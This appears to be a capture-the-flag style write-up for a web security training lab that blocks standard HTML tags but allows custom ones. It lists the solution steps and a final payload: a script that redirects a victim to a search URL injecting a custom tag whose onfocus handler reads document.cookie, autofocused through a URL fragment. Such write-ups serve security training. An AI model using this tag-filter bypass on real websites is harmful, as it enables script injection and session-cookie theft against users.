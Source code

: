 ## Solution steps

- The lab filters standard HTML tags like <script>, <img>, <svg>, etc.
- Only custom tags (like <xss>, <abc>, etc.) are allowed.
- Since custom tags are allowed, we can use a custom element like <xss> and attach an event handler to it.
- onfocus=alert(document.cookie) → to run the script.
- tabindex=1 → to make the element focusable.
- #x → to automatically give focus to the element with id="x" on page load.
- Go to the exploit server.
- Enter this Final Payload in the Body:
  `<script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
  </script>`
